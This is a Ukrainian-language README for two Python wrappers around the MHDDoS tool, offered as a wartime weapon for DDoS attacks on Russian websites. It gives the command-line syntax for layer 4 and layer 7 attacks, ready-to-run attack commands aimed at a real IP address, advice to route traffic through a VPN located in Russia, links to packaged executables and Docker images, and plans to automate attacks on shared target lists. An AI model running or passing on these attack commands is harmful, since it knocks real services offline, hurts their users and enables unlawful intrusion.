 # Паляниця

![GitHub last commit](https://img.shields.io/github/last-commit/pocket-sunflower/palyanytsya)
[![Python 3.10](https://img.shields.io/badge/python-3.10-f.svg)](https://www.python.org/downloads/release/python-360/)
![](https://img.shields.io/github/license/pocket-sunflower/palyanytsya)
![](https://img.shields.io/docker/pulls/pocketsunflower/pyrizhok?label=pyrizhok%20docker%20pulls)
![](https://img.shields.io/docker/pulls/pocketsunflower/palyanytsya?label=palyanytsya%20docker%20pulls)

Цифрова зброя проти xуйлoвської пропаганди.

Щоб негайно почати шкварити рашистські сайти – мерщій у [швидкий старт][docs-quickstart]! ⚡️

А коли ворожі сервери вже жаряться і є час почитати – ласкаво просимо вниз.

---

## Швидкі посилання

- [⚡ Швидкий старт][docs-quickstart]
- [🔥 Мотивація](#motivation)
- [🔧 Технічні деталі](#technical)
  - [📑 Параметри](#parameters)
  - [🍞 Випічка](#building)
  - [🥐 Випічка (самостійно)][docs-building-detailed]
  - [🥡 Запуск вихідного коду](#run-from-source)
- [🚀 Плани та колаборація](#plans-and-collaboration)

---

## <a name="motivation"></a>🔥 Мотивація

24-го лютого 2022 року Російська Федерація підступно напала на Україну. В перші дні нападу Мінцифри України оперативно організувало кібер-армію: легіон IT-фахівців та волонтерів, які доклали свої сили та вміння на протидію рашистському агресору у цифровому просторі.

Цей репозиторій – духовний спадкоємець декількох проектів, що допомагали нам тримати цифровий тиск по ворогу у перший тиждень війни. Наша ціль – зробити запуск цього коду якомога простішим для більшості людей і при тому зберегти ефективність і гнучкість опцій атаки.

Тож, вмикайте свої машини, відкривайте термінали, і вліпимо дружньою паляницею по системах окупантів!

Слава Україні! Ми разом і ми переможемо! 💙💛

---

## <a name="technical"></a>🔧 Технічні деталі 


[MHDDoS][mhddos-github] – це потужний пайтон-скрипт для виконання DDoS атак у різних режимах. Наш репозиторій надає для нього два прості врапери: 

- Пиріжок ([pyrizhok](pyrizhok.py)) – мінімалістична версія врапера, яка потребує лише **адресу цілі** для того, щоб запустити атаку. Тим паче, за бажанням можна надати інший **порт** і **протокол**. Створений для починаючих котиків 😸
- Паляниця ([palyanytsya](palyanytsya.py)) – це повний врапер для MHDDoS, який приймає **всі опції** з оригінального скрипта. Створений для досвідчених в IT котів та киць 😼


### <a name="parameters"></a>📑 Параметри

> **⚠** **ВАЖЛИВО:** Не забувайте користуватися VPN! Бажано з локацією в Росії - так ефективніше.

**Пиріжок** можна запускати без параметрів – під час запуску він сам спитає вас про те, кому і як треба вгатити.

Тим не менш, параметри можна передати наперед у такому форматі:

```bash
pyrizhok.py <target_address> <target_port> <attack_method>
```

Значення параметрів:

1. `target_address` – адреса цілі. Може бути URL або IP-адресою.
2. `target_port` – (опціонально) порт цілі.
3. `attack_method` – (опціонально, потребує вказаний порт) метод, який буде використовуватися для атаки. Список можливих  опцій можна побачити [в оригінальному доці MHDDoS][mhddos-github-layer7]. 

**Паляниця** дає доступ до всіх опцій в MHDDoS, яких немало, тому зараз рекомендуємо дивитися прямо в [оригінальну документацію][mhddos-github-launch]. Також деталі про параметри можна подивитися запустивши паляницю з параметром help: 
```bash
palyanytsya.py help
```

Мапа параметрів залежить від того, на який шар мережі ведеться атака.

- Layer 7: 
   ```bash
   palyanytsya.py <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>

- Layer 4: 
  ```bash
  palyanytsya.py <method> <ip:port> <threads> <duration>
  ```



### <a name="building"></a>🍞 Випічка

Паляниця та пиріжок запаковані в декілька різних форматів, аби зменшити час на налаштування і запуск до мінімуму.

> **ℹ** Детальний гайд про те, як самостійно запекти пиріжок та паляницю [можна знайти тут][docs-building-detailed].

**PyInstaller 🐍** Standalone версії обох програм запаковані за допомогою [PyInstaller][pyinstaller]. Python-скрипти для створення білдів можна знайти у папці [build_scripts_PyInstaller](build_scripts_PyInstaller). Зауважте, що білд створюється для тієї ж платформи, на якій запущено скрипт (наприклад, щоб збілдити проект на Mac - треба запустити бідповідний білд на машині з macOS). Вихідні файли знаходяться у своїх папках:
- 💻 Білди .exe для Windows – в [executables/Windows](executables/Windows).
- 🐧 Білди для Linux – в [executables/Linux](executables/Linux).
- 🍎 Білди для Mac – в [executables/Mac (Intel)](executables/Mac%20(Intel)) та [executables/Mac (M1)](executables/Mac%20(M1)).

**Docker 🐋** Скрипти для збирання Docker-контейнерів та самі Dockerфайли знаходяться в папці [build_scripts_Docker](build_scripts_Docker). Найновіші версії обох контейнерів також доступні у репозиторії Docker Hub:
- [pocketsunflower/pyrizhok:latest][dockerhub-pyrizhok]
- [pocketsunflower/palyanytsya:latest][dockerhub-palyanytsya]

Якщо хочете створити білди самостійно – ласкаво просимо в [детальний гайд][docs-building-detailed].



### <a name="run-from-source"></a>🥡 Запуск вихідного коду

Щоби запустити пиріжок чи паляницю з джерела:

1. Клонуємо цей репозиторій:
    ```bash
    git clone https://github.com/pocket-sunflower/palyanytsya
    ```

2. Заходимо в папку та створюємо віртуальне середовише:
    > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**](https://www.python.org/downloads/release/python-3102/).
    ```bash
    cd palyanytsya
    virtualenv --python python3.10 venv
    ```

3. Активуємо середовище та встановлюємо залежності:
    ```bash
    source venv/bin/activate7
    pip install -r requirements.txt
    ```

4. Запускаємо пиріжок (або паляничку) з потрібною адресою, наприклад _194.85.30.210_ ([саме так][same-tak]):
    ```bash
    python3 pyrizhok.py 194.85.30.210 443 TCP
    ```
    ```bash
    python3 palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

    …і те, що за адресою, відправляється вслєд за рускім корабльом.

---

## <a name="plans-and-collaboration"></a>🚀 Плани та колаборація

Найближчим часом планується:
- ✅ ~~Додати кращий логінг статусу атаки (наразі атака іде у фоновому режимі, без індикації статусу).~~
- Додати новий клієнт для автоматичного «тестування» [адрес][db1000n-targets] наданих проектом [«Death by 1000 needles»][db1000n]. Це допоможе нам бути більш скоординованими та ефективними.
- Додати автоматизацію білдів для усіх платформ через CI.
- Whatever else may come…

Якщо ви можете допомогти з будь-яким пунктом вище, або у вас є ідеї про те, як покращити існуючий код, ми будемо дуже вдячні - відкривайте [issues][repo-issues] та пропонуйте [pull requests][repo-pull-requests]. Єдина умова - чітко поясніть, що ви хотіли би змінити, щоб ніхто не витрачав часу на непорозуміння.

---

<div style="text-align: center">Бережіть себе! Все буде Україна! </div>

<div style="text-align: center">💙💛</div>

<div style="text-align: right"><span style="font-style: italic">Pocket Sunflower </span>🌻</div>



<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[mhddos-github-launch]: https://github.com/MHProDev/MHDDoS#launch-script
[mhddos-github-layer7]: https://github.com/MHProDev/MHDDoS#features-and-methods
[pyinstaller]: https://pyinstaller.readthedocs.io/en/stable/index.html
[db1000n]: https://github.com/Arriven/db1000n
[db1000n-targets]: https://github.com/db1000n-coordinators/LoadTestConfig/blob/main/config.json
[repo-issues]: https://github.com/pocket-sunflower/palyanytsya/issues
[repo-pull-requests]: https://github.com/pocket-sunflower/palyanytsya/pulls
[dockerhub-pyrizhok]: https://hub.docker.com/repository/docker/pocketsunflower/pyrizhok
[dockerhub-palyanytsya]: https://hub.docker.com/repository/docker/pocketsunflower/palyanytsya
[same-tak]: https://www.nslookup.io/dns-records/mid.ru
[docs-building-detailed]: docs/BUILDS.md
[docs-quickstart]: docs/QUICKSTART.md
